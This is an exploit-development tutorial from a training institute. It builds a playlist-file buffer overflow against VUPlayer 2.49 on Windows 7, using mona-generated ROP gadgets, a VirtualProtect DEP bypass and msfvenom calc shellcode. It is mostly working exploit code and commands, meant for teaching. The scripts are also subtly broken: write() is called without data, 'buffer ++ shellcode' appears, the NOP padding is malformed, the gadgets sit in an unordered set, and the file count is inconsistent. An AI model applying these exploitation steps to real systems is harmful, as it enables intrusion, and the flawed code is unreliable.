





:orphan:
(hands-on-windows-shellcoding-create-rop-via-mona.py)=

# Hands on Windows Shellcoding: Create ROP via mona.py

Let's see the procedure in action by attempting to exploit some susceptible software on Windows 7 32-bit with the security settings left as they were originally installed.

We will attack the VUPlayer 2.49 software vulnerability.
The vector of attack is the opening of a malicious `.m3u` playlist file. A `.m3u` file will be generated using a Python script. Then, each time the exploit is modified, the file will be recreated, through executing the Python script.

We begin with a basic proof-of-concept crash that generates a `.m3u` playlist containing 2500 `A`'s. We import the struct module since it will be used later for addressing.

```python
import struct

buffer = "A" * 2500
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```

It is worthwhile to create such files in Python using the command line in order to identify potential syntax issues.



Using Immunity Debugger, we launch the VUPlayer and browse to Open Playlist. We'll then open our `exploit.m3u` file.


As anticipated, this is a standard EIP rewrite. As in earlier cases, let's locate the offset utilizing mona.


Pasting the pattern into the exploit. Remember that the pattern can be found in untruncated form in a text file within the Immunity Debugger directory.

```bash
!mona pattern_create 2500
```


After updating the exploit, the newly-created playlist gets accessed. Before doing so, a restart of the debugged software is required.

```python
import struct

buffer = "Aa01Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3..."
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```

Mona informs us that the correct offset is located at position `1012`. Let's verify it by applying the modified exploit.


According on the mona output, we locate `BBBB` at position `1013`.vAdditionally, we will pad the remaining bytes with `C` to see if there is available space following the overflow. Previously, `2500` characters were used; let's maintain this buffer length.

```python
import struct

buffer = "A" * 1012
buffer += "BBBB"
buffer += "C" * (2500-len(buffer))
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```

We were able to accurately rewrite the EIP. Now that we have control of the EIP, let's attempt to reroute the execution flow to the stack.



As usual, we wish to locate a "return to stack" instruction at this stage. As both `edi` and `esp` relate to the remainder of our payload, we wish to locate an instruction such as `jmp esp` or `call edi`


Since we are using Windows 7, ASLR and DEP are enabled.
Before we can begin searching for instructions, we must identify any non-ASLR modules whose addresses can be hardcoded.

We use mona command:

```bash
!mona modules -cm aslr=false,rebase=false
```



There are four modules that can aid with exploit construction. They are all included with the software.

We may be able to reuse code from these modules to compromise the software, despite any existing system exploit defenses.

As follows, we will restrict our search for a suitable jump command to these four modules.


Several of the addresses contain null bytes, but we are able to select from a limited number of addresses.
Let's select the address `0x100222C5`.


We must modify the exploit.
First, we will replace the `BBBB` EIP Placeholder with the JMP ESP instruction's address. Also, as it is intended to send us to the stack, we will alter the `C` buffer to a `0xcc` buffer, so there will only be breakpoints.

Normally, breakpoints should begin executing upon running the most recent `.m3u` file.

The current exploit code is presented:

```python
import struct

jmpesp = 0x100222C5

buffer = "A" * 1012
buffer += struct.pack("<I", jmpesp)
buffer += "\xcc" * (2500-len(buffer))
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```

Since DEP is enabled, instead of the customary `INT3 instruction at X` at the bottom, an access violation is displayed. We are unable to execute any stack data.


We cannot execute anything on the stack, but we can still place arguments and addresses there, like we did during Linux ROP.

As DEP-bypassing functions have previously been [presented](https://blog.mosse-institute.com/2022/06/21/windows-exploit-countermeasures.html), let's construct a ROP chain using mona and step-by-step study its behavior.

Find below the mona command that enables us to look for ROP chains in the specified modules (these are the modules we chose before that do not support ASLR or Rebase).

```bash
!mona rop -m VUPlayer.exe,BASSWMA.dll,BASSMIDI.dll,BASS.dll
```


`mona.py` generated the following three files:

- `rop_chains.txt`
- `stackpivot.txt`
- `rop_suggestions.txt`
- `rop.txt`

Let's examine the Immunity Debugger's content by navigating to its directory. Examining stackpivot.txt will reveal numerous instructions that allow us to "ret" to the stack. As you may recall, ret transfers the address at the top of the stack to EIP. Therefore, if we provide some locations in the current `C` buffer, we can jump to these addresses and not the non-executable stack.


`rop_suggestions.txt` offers a variety of gadgets organized by their intended function. For instance, the parts below contain gadgets that allow us to transfer `ecx` to `ebp`.


`Rop.txt` includes an unordered list of the gadgets present in the executable.


`rop_chains.txt` has the complete ROP chains that mona was able to construct. If you can see a complete chain constructed in this location, you are halfway to bypassing the DEP security.


Such chains frequently require adjustments.
This time, there is at least one area for improvement.

`VUPlayer.exe` is not an ASLR module, although its addresses begin with a null byte. Let's repeat the search using only the result `.DLL` modules

```bash
!mona rop -m BASSWMA.dll,BASSMIDI.dll,BASS.dll
```

In the `rop_chains.txt` file, there is just one chain that was successfully constructed, and it is the one that uses the `VirtualProtect()` function.

Using the `VirtualAlloc()` chain as an example, we can observe that mona was unable to locate some pointers. In such a scenario, manual labor may be required to get the procedure to function.


Regarding the `VirtualProtect()` chain, the `VirtualProtect` address is the most crucial variable.

We will utilize this pointer even if we need to reconstruct the chain.


This ROP chain cannot be copied and pasted into the exploit and just be run. If you attempt this, you will reach Access Infraction.

Instead of reconstructing it, let's examine its components is required to construct a ROP chain and initiate its creation. As with Linux ROP, all we desire is to invoke a function with specific arguments.

This is the VirtualProtect function, and let's examine the arguments we have available.

Considering Microsoft's webpages, `VirtualProtect` makes the following args:

```cpp
BOOL VirtualProtect(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flNewProtect,
  PDWORD lpflOldProtect
);
```

According to this, we must push four parameters plus the return address onto the stack before calling the function.

The return address can be the shellcode's address, and the `lpAddress` argument of `VirtualProtect` will point to the shellcode.

In such a scenario, `VirtualProtect` will make the shellcode region executable and then return seamlessly to the shellcode area after permitting execution.

`Dwsize` indicates the number of bytes the function affects. We shall choose `0x201 bytes` as our size.
`flNewProtect` defines the protection flag, which is `0x40`, which stands for `PAGE_EXECUTE_READWRITE`. `lpflOldProtect` indicates the variable that will get the prior access protection value. This requires a proper pointer.

As these arguments must be placed onto the stack, we have two options for doing so.

First, we can move them away from the actual stack so that we can operate on values given in the exploit buffer, and then, once the stack is constructed, we can alter the Stack Pointer.

However, a simpler way exists.

We can utilize the `PUSHAD` command. `PUSHAD` pushes all general-purpose registers onto the stack simultaneously, therefore if we can store following arguments in registers, we can use `PUSHAD` to move them to the stack.

What we will try to achieve in the registers is:

- `EAX` will point to `VirtualProtect`.
- `ECX` will contain the address of a dummy writable
  location (`lpflOldProtect`).
- `EDX` will contain the protection level flag, so `0x40`.
- `EBX` will contain the shellcode size; we chose `0x201`.
- `ESP` will contain the stack pointer. Shellcode will be
  placed near the top of the stack, so that we may be able to reference it.
- The `EBP` will include the return address. A gadget's address will be saved in it. It can be any device capable of returning execution to the stack in the format POP X, RET. This manner, it will return to the stack upon returning to that spot.

This is the sequence in which these registers will be pushed into the stack. `EDI` and `ESI` will carry instructions for executing the whole supply chain.

As we now possess the theoretical groundwork necessary to construct. Let's begin the actual development process.

We will execute `rop_chains.txt`'s ROP-function skeleton into our exploit. In addition, we shall replace the JMP ESP instruction to RET. begin to execute addresses taken from the stack anything they point to, rather than carrying out instructions on the stack that is prohibited by DEP.

Gadgets can be found in the `rop.txt` file. We insert the address of the gadget there and now just the address of RET can be copied and used in the exploit.

Following the `pop ebp` expression located at `0x10010157`, we proceeded. The result displays the device at that address. As we only require the `ret`, we will use its address, which is `0x10010158`.

We will now launch the modified payload. Currently, the exploit appears as follows, and we shall execute it now for clarification:

```python
import struct

def create_rop_chain():
    rop_gadgets = {
        0x42424242,
        0x43434343,
    }
    return ''.join(struct.pack("<I", _) for _ in rop_gadgets)

ret = struct.pack("<I", 0x10010158)
rop_chain = create_rop_chain()
shellcode = "\0x90" * 32 + "\xcc\xcc\xcc\xcc"

buffer = "A" * 1012
buffer += ret
buffer += rop_chain
buffer ++ shellcode
buffer += "\x90" * (2500-len(buffer))
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```

We choose an address with a clear retn and incorporate it into the exploit. Then, it will be added twice to the exploit buffer. The address of the instruction is `0x100106e1`.


ROP chain is the sole element currently modified by the exploit. Additionally, we will add a breakpoint in the first ret at `0x10010158`.

```python
import struct

def create_rop_chain():
    rop_gadgets = {
        0x100106e1, # pop ebp, ret
        0x100106e1, # popped to peb: pop ebp, ret
        0x42424242, # placeholder
    }
    return ''.join(struct.pack("<I", _) for _ in rop_gadgets)

ret = struct.pack("<I", 0x10010158)
rop_chain = create_rop_chain()
shellcode = "\0x90" * 32 + "\xcc\xcc\xcc\xcc"

buffer = "A" * 1012
buffer += ret
buffer += rop_chain
buffer ++ shellcode
buffer += "\x90" * (2500-len(buffer))
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```

The breakpoint is set, and the exploit playlist is opened.
It may be necessary to reset it each time the debugged application is restarted.

`dwSize`, which will reside in `EBX`, is the next parameter we need to configure prior to calling `PUSHAD`.

Unfortunately, due to null bytes, we cannot simply push `0x201`. Nonetheless, we can employ negation.
We can push the fixed value of `0xfffffdff` and then locate a device that reverses the operation.
You can also consider other operations, like `POP REG [value] # ADD REG` or similar.

Consider the following gadgets in the chain:

- `0x10015f82` - POP EAX # RETN
- `0xfffffdff` - After negation, will become 0x201
- `0x10014db4` - NEG EAX # RETN
- `0x10032f72` - XCHG EAX, EBX

Place them in the exploit and begin as usual with the breakpoint in the first `RET`. Again, we will walk inside each instruction and observe their behavior.

```python
import struct

def create_rop_chain():
    rop_gadgets = {
        0x100106e1, # pop ebp, ret
        0x100106e1,
        0x10015f82, # pop eax # retn
        0xfffffdff, # value to negate
        0x10014db4, # neg eax
        0x10032f72, # xchg eax, ebx
        0x42424242, # placeholder
    }
    return ''.join(struct.pack("<I", _) for _ in rop_gadgets)

ret = struct.pack("<I", 0x10010158)
rop_chain = create_rop_chain()
shellcode = "\0x90" * 32 + "\xcc\xcc\xcc\xcc"

buffer = "A" * 1012
buffer += ret
buffer += rop_chain
buffer ++ shellcode
buffer += "\x90" * (2500-len(buffer))
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"

```

We execute the exploit until we reach the initial RET breakpoint.


The stack contains the whole ROP chain:


We now step into 0x100106E1 three times, till it is popped into `EBP` (that was done in the previous step).
We are currently at the first instruction for the `POP EAX` device.




We can see that the value to be negated is currently at the top of the stack, therefore the next `POP EAX` operation will deposit it in `EAX`.
Let's enter once to observe its popping to `EAX`.


The address of another gadget (`NEG EAX # RET`) is now on
the top of the stack. As we step into the current RET, we
will start to execute it.


Once we step into further, the `EAX` will be negated, resulting in `0x201`.


Stepping into the last two times causes the EAX content to be exchanged with EBX, and then the control flow returns to the placeholder address on the stack upon the next step into.




You should now have a basic understanding of how ROP operates on Windows. Let's continue implementing the stack configuration of the remaining arguments.

The following argument will be `flNewProtect`, which likewise contains null bytes (`0x40`), therefore it will be saved in `EDX` in a manner quite identical to the preceding argument.

Continuing similarly, we get an exploit:

```python
import struct

def create_rop_chain():
    rop_gadgets = {
        0x100106e1, # pop ebp, ret
        0x100106e1,

        0x10015f82, # pop eax # retn
        0xfffffdff, # value to negate
        0x10014db4, # neg eax
        0x10032f72, # xchg eax, ebx

        0x10015f82, # pop eax # retn
        0xffffffc0, # value to negate
        0x10014db4, # neg eax
        0x10038a6d, # xchg eax, edx
        0x106053e5, # pop ecx, retn
        0x101082cc,

        0x1001621c, # pop edi # retn
        0x10010158, # retn

        0x10604154, # pop esi # retn
        0x10101c02, # jmp [eax]

        0x10015fe7, # pop eax # retn (BASS.dll)
        0x10109270, # ptr to &VirtualProtect() [IAT BASSWNA.dll]
    }
    return ''.join(struct.pack("<I", _) for _ in rop_gadgets)

ret = struct.pack("<I", 0x10010158)
rop_chain = create_rop_chain()
shellcode = "\0x90" * 32 + "\xcc\xcc\xcc\xcc"

buffer = "A" * 1012
buffer += ret
buffer += rop_chain
buffer ++ shellcode
buffer += "\x90" * (2500-len(buffer))
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```

but we will not run it yet.

Since we are close to finishing, let’s add two last instructions.

We will add the `PUSHAD` instruction. Also, we will need `JMP ESP` immediately after it, as the `0x201` bytes of the stack should become executable after the `VirtualProtect` call, and we will need to jump to that area.

In conclusion, we include the following gadgets:

- `0x1001d7a5` - PUSHAD, RET
- `0x10022aa7` - JMP ESP Address

The exploit is revised, and the placeholder is eliminated as the chain is finished:

```python
import struct

def create_rop_chain():
    rop_gadgets = {
        0x100106e1, # pop ebp, ret
        0x100106e1,

        0x10015f82, # pop eax # retn
        0xfffffdff, # value to negate
        0x10014db4, # neg eax
        0x10032f72, # xchg eax, ebx

        0x10015f82, # pop eax # retn
        0xffffffc0, # value to negate
        0x10014db4, # neg eax
        0x10038a6d, # xchg eax, edx
        0x106053e5, # pop ecx, retn
        0x101082cc,

        0x1001621c, # pop edi # retn
        0x10010158, # retn

        0x10604154, # pop esi # retn
        0x10101c02, # jmp [eax]

        0x10015fe7, # pop eax # retn (BASS.dll)
        0x10109270, # ptr to &VirtualProtect() [IAT BASSWNA.dll]

        0x1001d7a5, # pushad, ret
        0x10022aa7, # jmp esp address
    }
    return ''.join(struct.pack("<I", _) for _ in rop_gadgets)

ret = struct.pack("<I", 0x10010158)
rop_chain = create_rop_chain()
shellcode = "\0x90" * 32 + "\xcc\xcc\xcc\xcc"

buffer = "A" * 1012
buffer += ret
buffer += rop_chain
buffer ++ shellcode
buffer += "\x90" * (2500-len(buffer))
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```

As we Step Over till the end of `VirtualProtect`, `VirtualProtect` executes with our parameters and we arrive at the return address - `POP EBP`.


As we step over the `POP EBP`, the address to `VirtualProtect` is popped off the stack, as it is no longer required. Then, we bypass the `RETN` and insert the final address in the ROP chain into the `EIP`. The execution flow will be transferred to the stack through the `JMP ESP` instruction.


As we now step over, we can see that there is no more
access violation. We can execute data on the stack.


Let's produce the `msfvenom` calc shellcode and insert it into the exploit. This time, we will not detect bad characters (we wish to avoid `0x00` and CRLFs, and `0x1a` was discovered to be a bad character as well).

```bash
msfvenom -p windows/exec cmd=calc.exe -b "\x00\x0a\x0d\x1a" -f c
```

```python
import struct

def create_rop_chain():
    rop_gadgets = {
        0x100106e1, # pop ebp, ret
        0x100106e1,

        0x10015f82, # pop eax # retn
        0xfffffdff, # value to negate
        0x10014db4, # neg eax
        0x10032f72, # xchg eax, ebx

        0x10015f82, # pop eax # retn
        0xffffffc0, # value to negate
        0x10014db4, # neg eax
        0x10038a6d, # xchg eax, edx
        0x106053e5, # pop ecx, retn
        0x101082cc,

        0x1001621c, # pop edi # retn
        0x10010158, # retn

        0x10604154, # pop esi # retn
        0x10101c02, # jmp [eax]

        0x10015fe7, # pop eax # retn (BASS.dll)
        0x10109270, # ptr to &VirtualProtect() [IAT BASSWNA.dll]

        0x1001d7a5, # pushad, ret
        0x10022aa7, # jmp esp address
    }
    return ''.join(struct.pack("<I", _) for _ in rop_gadgets)

ret = struct.pack("<I", 0x10010158)
rop_chain = create_rop_chain()

shellcode = "\x90"*32
# msfvenom -p Windows/exec cmd=calc.exe -b "\x00\x0a\x0d\x1a" -f c
buf = ("\xba\x06\xfd\x75\xdb\xdb\xd8\xd9\x74\x24\xf4\x58\x33\xc9\xb1"
"\x31\x31\x50\x13\x83\xc0\x04\x03\x50\x09\x1f\x80\x27\xfd\x5d"
"\x6b\xd8\xfd\x01\xe5\x3d\xcc\x01\x91\x36\x7e\xb2\xd1\x1b\x72"
"\x39\xb7\x8f\x01\x4f\x10\xbf\xa2\xfa\x46\x8e\x33\x56\xba\x91"
"\xb7\xa5\xef\x71\x86\x65\xe2\x70\xcf\x98\x0f\x20\x98\xd7\xa2"
"\xd5\xad\xa2\x7e\x5d\xfd\x23\x07\x82\xb5\x42\x26\x15\xce\x1c"
"\xe8\x97\x03\x15\xa1\x8f\x40\x10\x7b\x3b\xb2\xee\x7a\xed\x8b"
"\x0f\xd0\xd0\x24\xe2\x28\x14\x82\x1d\x5f\x6c\xf1\xa0\x58\xab"
"\x88\x7e\xec\x28\x2a\xf4\x56\x95\xcb\xd9\x01\x5e\xc7\x96\x46"
"\x38\xcb\x29\x8a\x32\xf7\xa2\x2d\x95\x7e\xf0\x09\x31\xdb\xa2"
"\x30\x60\x81\x05\x4c\x72\x6a\xf9\xe8\xf8\x86\xee\x80\xa2\xcc"
"\xf1\x17\xd9\xa2\xf2\x27\xe2\x92\x9a\x16\x69\x7d\xdc\xa6\xb8"
"\x3a\x12\xed\xe1\x6a\xbb\xa8\x73\x2f\xa6\x4a\xae\x73\xdf\xc8"
"\x5b\x0b\x24\xd0\x29\x0e\x60\x56\xc1\x62\xf9\x33\xe5\xd1\xfa"
"\x11\x86\xb4\x68\xf9\x67\x53\x09\x98\x77")
shellcode += buf

buffer = "A" * 1012
buffer += ret
buffer += rop_chain
buffer ++ shellcode
buffer += "\x90" * (2500-len(buffer))
with open("exploit.m3u", "w") as file:
    file.write()
print "created m3u file.\n"
```

And the updated exploit works!


Here, we tried it against the software outside of
the debugger

## Conclusion

In this tutorial, we demonstrated how DEP and ASLR may be circumvented simultaneously on Windows 7 32-bit.

As a supplement to the ASLR bypass, you might like another tool that was not used in the hack but is worth your attention as an aspiring exploit developer.

## References

[WinExec](https://docs.microsoft.com/en-us/Windows/win32/api/winbase/nf-winbase-winexec)

[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)

[VirtualProtect](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)

[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)

[Undocumented sysinternals](https://undocumented.ntinternals.net/)

> **Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html). In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.**
